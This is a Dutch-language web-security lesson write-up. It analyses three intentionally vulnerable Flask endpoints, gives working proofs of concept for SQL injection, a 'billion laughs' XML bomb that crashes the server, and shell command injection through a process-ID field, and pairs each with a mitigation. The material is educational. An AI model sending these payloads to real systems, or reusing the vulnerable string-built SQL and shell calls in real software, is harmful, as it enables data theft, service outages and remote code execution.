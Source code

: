 # Lesson 4

## Weak Passwords

```python
@app.route('/weakpassword')
def weakpassword():
    return render_template('weakpassword.html',searchresult = [], query = '')

@app.route('/weakpasswordsearch')
def weakpasswordsearch():
    conn = sqlite3.connect('passwords.db')
    result = []
    query = str(request.args.get('query'))
    
    if len(query) > 2:
        try:            
            cursor = conn.cursor()
            cursor.execute("SELECT * FROM passwords WHERE" +
             "((password LIKE '%%%s' ) OR (password LIKE '%s%%')) LIMIT 20"
                % (query,query))          
            rows = cursor.fetchall()       
            for row in rows:
                print(row,file=sys.stderr)
                result.append(row[0])        
        except:
            result = []
    
    conn.close()
    return render_template('weakpassword.html',searchresult = result, query=query)
```

### Problem
Het probleem bevindt zicht in de SQL statement. De cursor die de SQL uitvoert wordt op hetzelfde moment gevuld met data uit de gebruikersomgeving, zonder dat deze gechtecht word.

### Evidence
Bij het uitvoeren van het volgende commando zal de server dit stuk SQL in de query injecteren.
```
http GET localhost:5000/weakpasswordsearch query=="'OR'--"
```
Response:
```html
<h3>Search result for: &#39;OR&#39;1=1--</h3>
<ol>
<li>123456<br>
<li>password<br>
<li>12345678<br>
<li>qwerty<br>
<li>123456789<br>
<li>12345<br>
<li>1234<br>
<li>111111<br>
<li>1234567<br>
<li>dragon<br>   
<li>123123<br>
<li>baseball<br>  
<li>abc123<br>
<li>football<br>         
<li>monkey<br>
<li>letmein<br>
<li>696969<br>
<li>shadow<br>
<li>master<br>
<li>666666<br>
</ol>
```
Hier is te zien dat er arbitraire SQL in uitgevoerd.

### Mitigation
Er had hier input encoding kunnen plaatsvinden waardoor dingen zoals ```'``` geëscaped worden in plaats van in de code terecht komen.

## B2B
```python
@app.route('/b2b', methods=['GET','POST'])
def b2b():
    if request.method == 'GET':
        return render_template('b2b.html', verificationresult = '')
    if request.method == 'POST':
        try:
            schema = xmlschema.XMLSchema('static/note.xsd')
        except:
            return render_template('b2b.html',
                verificationresult =
                    'Internal problem while loading XML schema. Please contact administration')

        result = "The file is not valid"
        
        try:
            file = request.files['file']
        except:
            file = None

        if file and file.filename.endswith('.xml'):
            if schema.is_valid(file.read().decode('utf-8')):
                result = "The document is valid"
        else:
            file = None

        return render_template('b2b.html', verificationresult = result)
```
### Problem
Bij dit voorbeeld is het probleem dat er XML elementen kunnen worden gebombardeerd. Deze instelling staat niet uit op de XML parser.

### Evidence

Bij het onderstaande XML object is er een "billion laughs" aanval in het bestand geïnjecteerd.

```xml
<?xml version="1.0"?>
<!DOCTYPE body [
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>&lol9;</body>
</note>
```

Na het opsturen van dit bestand crasht de webserver.

### Mitigation
De oplossing is echter heel simpel. De XML parser zou de optie moeten uitschakelen waarin elementen worden overgenomen door middel van referenties. Op deze manier worden dingen zoals ```&lol9;``` niet ingevuld.

## Process Viewer

```python
@app.route('/status')
def status():
    processes = json.loads(subprocess.check_output("/bin/ps aux | /usr/bin/awk -v OFS=,
        '{print $1, $2, $3}' |  /usr/bin/jq -R 'split(\",\") | 
            {user: .[0], pid: .[1], cpu: .[2]}' | /usr/bin/jq -s .",
                shell=True))
    selection = []
    processes.pop(0)
    for proc in processes:
        if float(proc['cpu']) > 0:
            selection.append(proc)
    return render_template('status.html', processes = selection)

@app.route('/details', methods=['POST'])
def defauls():
    pid = str(request.form.get('pid'))
    try:
        processes = json.loads(
            subprocess.check_output("/bin/ps -p %s | /usr/bin/awk -v OFS=, 
                '{print $1, $3, $4}' |  /usr/bin/jq -R 'split(\",\") |
                {pid: .[0], time: .[1], command: .[2]}' | /usr/bin/jq -s ." 
                    % (pid) ,shell=True))
        processes.pop(0)
        return render_template('details.html', processes = processes)
    except:
        processes = json.loads(subprocess.check_output("/bin/ps aux | /usr/bin/awk -v OFS=, '{print $1, $2, $3}' |  /usr/bin/jq -R 'split(\",\") | {user: .[0], pid: .[1], cpu: .[2]}' | /usr/bin/jq -s .",shell=True))
        selection = []
        processes.pop(0)
        for proc in processes:
            if float(proc['cpu']) > 0:
                selection.append(proc)
        return render_template('status.html', processes = selection)
```

### Problem
Bij deze code is er iets soortgelijks aan de hand als bij de SQL injectie. Het is mogelijk om arbitraire code te executen op een linux systeem.

### Evidence
Hierbij is het mogelijk om het ```ls``` commando uit te voeren op de web server.
```
http -f POST localhost:5000/details pid=";ls"
```
```html
HTTP/1.0 200 OK
Content-Length: 367
Content-Type: text/html; charset=utf-8
Date: Mon, 07 Dec 2020 22:48:31 GMT
Server: Werkzeug/1.0.1 Python/3.7.9

<h1>Active processes</h1>
<P>Process details</p>

<table border=1>
<tr><td>PID</td><td>TIME</td><td>Command</td></tr>

<tr><td>app.py</td><td></td><td></td></tr>

<tr><td>passwords.db</td><td></td><td></td></tr>

<tr><td>requirements.txt</td><td></td><td></td></tr>

<tr><td>static</td><td></td><td></td></tr>

<tr><td>templates</td><td></td><td></td></tr>

</table>
```

Dit is niet heel erg maar een tegenstander zou bijvoorbeeld een commando als dit kunnen uitvoeren:
```
echo "SSH config payload" > /etc/ssh.conf
```
Hierdoor is het mogelijk om remote access te krijgen tot de server.

### Mitigation
Hier zou een black list input validatie genoeg zijn om dit probleem te verhelpen. Als de gebruiker alleen input kan invoeren wat bestaat uit een getal tussen ```0``` en ```9```, of een combinatie van getallen tussen ```0``` en ```9``` kan de gebruiker alleen maar een process ```id``` kunnen invullen.